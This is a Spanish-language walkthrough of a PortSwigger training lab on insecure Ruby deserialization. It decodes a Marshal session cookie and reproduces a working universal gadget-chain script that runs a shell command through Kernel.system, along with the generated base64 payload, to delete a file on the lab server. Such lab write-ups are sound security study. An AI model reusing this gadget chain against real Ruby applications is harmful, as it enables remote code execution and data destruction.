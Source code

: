 ```yaml
---
title: "Exploiting Ruby deserialization using a documented gadget chain"
description: "Laboratorio de Portswigger sobre Insecure Deserialization"
date: 2025-01-02 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Insecure Deserialization
tags:
  - Portswigger Labs
  - Insecure Deserialization
  - Exploiting Ruby deserialization using a documented gadget chain
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo de `sesiones` basado en la `serialización` y el `framework Ruby on Rails`. Existen `exploits documentados` que permiten la `ejecución remota de código` mediante una `cadena de gadgets` en este `framework`. Para `resolver` el laboratorio, debemos encontrar un `exploit documentado` y adaptarlo para crear un `objeto serializado malicioso` que contenga una `carga útil de ejecución remota de código`. Luego, pasamos este `objeto` al `sitio web` para eliminar el archivo `morale.txt` del `directorio personal` de Carlos. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-7/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-7/image_2.png)

`Refrescamos` la `web` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Insecure-Deserialization-Lab-7/image_3.png)

El `token` está en `base64` así que lo `decodeamos` y vemos que es un `objeto`, esta estructura es típica de la librería `Marshal` de `ruby`

```
# echo 'BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVpa2dnNzM0b3huMnlmaGRpbnB1bGczbDhreGRubGNnZAY7B0YK' | base64 -d 
o:	User:@usernameI"
                        wiener:EF:@access_tokenI"%ikgg734oxn2yfhdinpulg3l8kxdnlcgd;F 
```

En esta web [https://nastystereo.com/security/ruby-3.4-deserialization.html](https://nastystereo.com/security/ruby-3.4-deserialization.html) podemos encontrar `artículos` para `efectuar` un `Deserialization Gadget Chain` en `ruby`. En mi caso voy a usar este `script` extraído de [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) que nos `genera` un `objeto serializado` en `ruby`, el cual nos permite `ejecutar comandos` en `versiones` de ruby `inferiores` a la `3.0.2`

```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

require "base64"
puts Base64.encode64(payload).gsub("\n", "")
```

En mi caso he usado [https://www.jdoodle.com/execute-ruby-online](https://www.jdoodle.com/execute-ruby-online) para `seleccionar` la `versión correspondiente` y `generar` el `payload` en `base64`

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ
```

Debido a que el parámetro `session` de la `cookie` es un `objeto` de `ruby`, podemos `abrirnos` el `navegador` y con `Ctrl + Shift + i` pegar el `objeto` que hemos `creado`

![](/assets/img/Insecure-Deserialization-Lab-7/image_4.png)
